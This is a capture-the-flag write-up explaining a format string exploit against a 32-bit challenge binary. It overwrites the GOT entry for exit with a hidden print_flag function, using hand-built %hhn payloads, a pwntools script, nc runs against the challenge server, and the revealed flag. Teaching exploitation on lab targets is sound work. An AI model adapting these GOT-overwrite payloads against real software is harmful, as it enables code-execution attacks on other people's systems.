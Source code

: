 # Write-up

# ![](/assets/problem-statement.png)

---

Exploit a format string vulnerability

Flag: **gigem{F0RM@1NG\_1S\_H4RD}**

## Analysis

Suppose we run  the program with the string `AAAAAAAAAAAAAA`

When the program is on `printf`,

![](/assets/at-printf.png)

The stack looks like:

```
BFFFEDC0  BFFFEDD0  MEMORY:BFFFEDD0  <--- ESP (Pointer to our string)
BFFFEDC4  00000002  MEMORY:00000002  Dword 1
BFFFEDC8  00000000  MEMORY:00000000  Dword 2
BFFFEDCC  00000000  MEMORY:00000000  Dword 3
BFFFEDD0  41414141  MEMORY:41414141  <--- Our entered string
BFFFEDD4  41414141  MEMORY:41414141
BFFFEDD8  41414141  MEMORY:41414141
BFFFEDDC  00004141  MEMORY:00004141
```

* The top of the stack contains the pointer \(address\) to our entered string.
* After that there are 3 dwords \(12 bytes\) and then our string begins.

Thus when exploiting, our entered string can be considered as the 4th parameter to printf.

The function which prints the flag is located at `080485AB`. It is not called anywhere by the program. We have to somehow redirect the execution flow to there so that it prints our flag.

```nasm
.text:080485AB public print_flag
.text:080485AB print_flag proc near
.text:080485AB
.text:080485AB var_D= byte ptr -0Dh
.text:080485AB fp= dword ptr -0Ch
.text:080485AB
.text:080485AB push    ebp
.text:080485AC mov     ebp, esp
.text:080485AE sub     esp, 18h
.text:080485B1 sub     esp, 0Ch
.text:080485B4 push    offset s                        ; "This function has been deprecated"
.text:080485B9 call    _puts
.text:080485BE add     esp, 10h
.text:080485C1 sub     esp, 8
.text:080485C4 push    offset modes                    ; "r"
.text:080485C9 push    offset filename                 ; "flag.txt"
.text:080485CE call    _fopen
```

The Global Offset Table looks like:

```
.got.plt:0804A00C 64 A0 04 08 off_804A00C dd offset printf ; DATA XREF: _printfr
.got.plt:0804A010 68 A0 04 08 off_804A010 dd offset gets ; DATA XREF: _getsr
.got.plt:0804A014 6C A0 04 08 off_804A014 dd offset _IO_getc ; DATA XREF: __IO_getcr
.got.plt:0804A018 70 A0 04 08 off_804A018 dd offset puts ; DATA XREF: _putsr
.got.plt:0804A01C 74 A0 04 08 off_804A01C dd offset exit ; DATA XREF: _exitr
.got.plt:0804A020 78 A0 04 08 off_804A020 dd offset __libc_start_main
```

Later in the program after `printf` returns `exit` is called.  
If we modify the address of `exit` in the GOT with that of `print_flag`, it would be executed and we would get our flag.

The entry of `exit` in the GOT is at `0804A01C` and it contains the bytes `74 A0 04 08`.  
The address of `print_flag` in little endian byte order is `AB 85 04 08`.  
Hence we would only need to write the two bytes `AB 85` , as the remaining two are already properly set up.

Summarizing,

Write`0xAB`  \(171\) to `0804A01C`

Write `0x85` \(133\) to `0804A01D`

Since 133 &lt; 171, we can write 133 at `0804A01D` followed by 171 at `0804A01C`.  
\(The reverse is also possible where we have to use wrap around. More on this next\).

#### Building the exploit string

Our exploit string will start with the two addresses in little endian byte order.

```
    -------------8 bytes------------
    |               |              |
    |  1st address  | 2nd address  |
    |               |              |
    \x1d\xa0\x04\x08\x1c\xa0\x04\x08
```

This takes up 8 bytes.

The string is located at an offset of 12 bytes \(3 dwords\) from the pointer to itself \(See above\).  
To reach the start of the string on the stack we need to consume these 3 dwords.  
The format string that can be used is`%08x%08x%08x`

The exploit string generated till this point is

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%08x
```

When this is passed to `printf`, the number of bytes it will display = 4 + 4 + 8 + 8 + 8 = 24

To reach 133, we still need to print `133 - 24 = 109` more bytes. We can append this 109 bytes to get:

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%08xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Alternatively, we can make the last or anyone of the `%08x` to display 109 bytes using space padding:

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%109x
```

Number of bytes displayed till now is 133. We can use the [format specifier](http://www.cplusplus.com/reference/cstdio/printf/) `%hhn` to write this value at the address specified. The address is a pointer to a variable and usually passed as an argument to `printf`. Here we have provided the address \(`0804A01D`\) at the beginning of the string itself.

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%109x%hhn
```

`hh` is the **length sub-specifier** and it indicates to **write a byte value** i.e. the address is a pointer to a byte. If the value to write is larger than a byte, it would be automatically **wrapped**. The situation is similar for other length sub-specifiers such as `h`, `l` and `ll`. Without any length sub-specifier it defaults to `int`.

Now, at this point, we have written `0x85` \(133\) to the location `0804A01D`. In this process we have also displayed 133 bytes on the terminal.

The next task is to write `0xAB` \(171\) to the location `0804A01C` and for that we need to display `171 - 133 = 38` more bytes. These bytes can again be simply appended to the exploit string. Using this approach our exploit string would be:

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%109x%hhnAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%hhn
```

```bash
$ python -c "print '\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%109x%hhnAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%hhn'" > exploit
$ nc pwn.ctf.tamu.edu 4323 < exploit
Enter a word to be echoed:
��0000000200000000                                                                                                            0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAThis function has been deprecated
gigem{F0RM@1NG_1S_H4RD}
```

#### Using positional arguments to printf

The exploit string can be shortened. We can use [positional arguments](http://stackoverflow.com/a/6322594/1833653) to `printf` which would eliminate the need for consuming dwords using `%08x`.

The exploit string in this case would be:

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%125x%4$hhnAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%5$hhn
```

If we use python, we need to properly escape the string, the `$` symbols needs to be escaped:

```
$ python -c "print '\x1d\xa0\x04\x08\x1c\xa0\x04\x08%125x%4\$hhnAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%5\$hhn'" > exploit

$ xxd exploit
0000000: 1da0 0408 1ca0 0408 2531 3235 7825 3424  ........%125x%4$
0000010: 6868 6e41 4141 4141 4141 4141 4141 4141  hhnAAAAAAAAAAAAA
0000020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
0000030: 4141 4141 4141 4141 4125 3524 6868 6e0a  AAAAAAAAA%5$hhn.

$  nc pwn.ctf.tamu.edu 4323 < exploit
Enter a word to be echoed:
��                                  2AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAThis function has been deprecated
gigem{F0RM@1NG_1S_H4RD}
```

#### Alternative approach instead of appending 38 A's

Alternatively, before the 2nd address, we can write a dummy dword \(`0xDEADBEEF` here\) and use something like `%38x`for referring to it. In addition other field width sub-specifier have to be reduced by 4.

```
\x1d\xa0\x04\x08\xDE\xAD\xBE\xEF\x1c\xa0\x04\x08%08x%08x%105x%hhn%38x%hhn
```

If we use positional arguments, the exploit string becomes even more shorter:

```
\x1d\xa0\x04\x08\xDE\xAD\xBE\xEF\x1c\xa0\x04\x08%121x%4$hhn%38x%6$hhn
```

Note that the positional arguments are `%4$hhn` and `%6$hhn`. This is because the 5th argument to printf is `DEADBEEF`

## Using pwntools \(automated\)

#### Generate the exploit

First parameter \(4\) indicates that the string is the 4th parameter.  
See the [pwntools docs](http://python3-pwntools.readthedocs.io/en/latest/fmtstr.html#pwnlib.fmtstr.fmtstr_payload) for more info.

```py
from pwnlib.fmtstr import fmtstr_payload
open('exploit', 'w').write(fmtstr_payload(4, {0x0804a01c: 0x080485ab}, write_size='byte'))
```

#### Profit :\)

```bash
$ xxd exploit 
0000000: 1ca0 0408 1da0 0408 1ea0 0408 1fa0 0408  ................
0000010: 2531 3535 6325 3424 6868 6e25 3231 3863  %155c%4$hhn%218c
0000020: 2535 2468 686e 2531 3237 6325 3624 6868  %5$hhn%127c%6$hh
0000030: 6e25 3463 2537 2468 686e                 n%4c%7$hhn

$ nc pwn.ctf.tamu.edu 4323 < exploit
Enter a word to be echoed:
����                       This function has been deprecated
gigem{F0RM@1NG_1S_H4RD}
```



